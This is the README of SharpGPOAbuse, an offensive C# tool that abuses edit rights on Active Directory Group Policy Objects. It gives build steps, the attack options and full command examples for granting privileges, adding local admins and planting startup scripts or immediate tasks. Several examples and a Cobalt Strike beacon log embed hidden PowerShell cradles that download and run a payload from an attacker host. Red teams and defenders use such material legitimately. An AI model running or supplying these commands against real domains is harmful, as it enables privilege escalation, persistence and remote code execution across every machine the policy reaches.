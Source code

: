 # SharpGPOAbuse
SharpGPOAbuse is a .NET application written in C# that can be used to take advantage of a user's edit rights on a Group Policy Object (GPO) in order to compromise the objects that are controlled by that GPO.

More details can be found at the following blog post: [https://labs.mwrinfosecurity.com/tools/sharpgpoabuse](https://labs.mwrinfosecurity.com/tools/sharpgpoabuse)

## Compile Instructions ## 
SharpGPOAbuse has been built against .NET 3.5 and is compatible with Visual Studio 2017. Simply open the solution file and build the project.

CommandLineParser has been used in order to parse the command line arguments. This package will need to be installed by issuing the following command into the NuGet Package Manager Console:

`Install-Package CommandLineParser -Version 1.9.3.15`

After compiling the project, merge the SharpGPOAbuse.exe and the CommandLine.dll into one executable file using ILMerge:

`ILMerge.exe /out:C:\SharpGPOAbuse.exe C:\Release\SharpGPOAbuse.exe C:\Release\CommandLine.dll`

## Usage ##
```
Usage:
        SharpGPOAbuse.exe <AttackType> <AttackOptions>
```

## Attacks Types ## 
Currently SharpGPOAbuse supports the following options:

| Option               | Description                               |
| ---------------------|-------------------------------------------|
| [--AddUserRights](#adding-user-rights) | Add rights to a user                      |
| [--AddLocalAdmin](#adding-a-local-admin)      | Add a user to the local admins group      |
| [--AddComputerScript](#configuring-a-user-or-computer-logon-script)  | Add a new computer startup script         |
| [--AddUserScript](#configuring-a-user-or-computer-logon-script)      | Configure a user logon script             |
| [--AddComputerTask](#configuring-a-computer-or-user-immediate-task)    | Configure a computer immediate task       |
| [--AddUserTask](#configuring-a-computer-or-user-immediate-task)        | Add an immediate task to a user           |

## Attack Options

### Adding User Rights 
```
Options required to add new user rights:
--UserRights
        Set the new rights to add to a user. This option is case sensitive and a comma separeted list must be used.
--UserAccount
        Set the account to add the new rights.
--GPOName
        The name of the vulnerable GPO.
        
Example:
        SharpGPOAbuse.exe --AddUserRights --UserRights "SeTakeOwnershipPrivilege,SeRemoteInteractiveLogonRight" --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Adding a Local Admin 
```
Options required to add a new local admin:
--UserAccount
        Set the name of the account to be added in local admins.
--GPOName
        The name of the vulnerable GPO.

Example:
        SharpGPOAbuse.exe --AddLocalAdmin --UserAccount bob.smith --GPOName "Vulnerable GPO"
```

### Configuring a User or Computer Logon Script  
```
Options required to add a new user or computer startup script:
--ScriptName
        Set the name of the new startup script.
--ScriptContents
        Set the contents of the new startup script.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddUserScript --ScriptName StartupScript.bat --ScriptContents "powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

### Configuring a Computer or User Immediate Task  
```
Options required to add a new computer or user immediate task:
--TaskName
        Set the name of the new computer task.
--Author
        Set the author of the new task (use a DA account).
--Command
        Command to execute.
--Arguments
        Arguments passed to the command.
--GPOName
        The name of the vulnerable GPO.

Example: 
        SharpGPOAbuse.exe --AddComputerTask --TaskName "Update" --Author DOMAIN\Admin --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.10:80/a'))\"" --GPOName "Vulnerable GPO"
```

## Additional Options 
| Option               | Description                               |
| ---------------------|-------------------------------------------|
| --DomainController   | Set the target domain controller          |
| --Domain             | Set the target domain                     |
| --Force              | Overwrite existing files if required      | 

## Example Output
```
beacon> execute-assembly /root/Desktop/SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"IEX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[*] Tasked beacon to run .NET program: SharpGPOAbuse_final.exe --AddComputerTask --TaskName "New Task" --Author EUROPA\Administrator --Command "cmd.exe" --Arguments "/c powershell.exe -nop -w hidden -c \"I
EX ((new-object net.webclient).downloadstring('http://10.1.1.141:80/a'))\"" --GPOName "Default Server Policy"
[+] host called home, sent: 171553 bytes
[+] received output:
[+] Domain = europa.com
[+] Domain Controller = EURODC01.europa.com
[+] Distinguished Name = CN=Policies,CN=System,DC=europa,DC=com
[+] GUID of "Default Server Policy" is: {877CB769-3543-40C6-A757-F2DF4E5E28BD}
[+] Creating file \\europa.com\SysVol\europa.com\Policies\{877CB769-3543-40C6-A757-F2DF4E5E28BD}\Machine\Preferences\ScheduledTasks\ScheduledTasks.xml
[+] versionNumber attribute changed successfully
[+] The version number in GPT.ini was increased successfully.
[+] The GPO was modified to include a new immediate task. Wait for the GPO refresh cycle.
[+] Done!
```
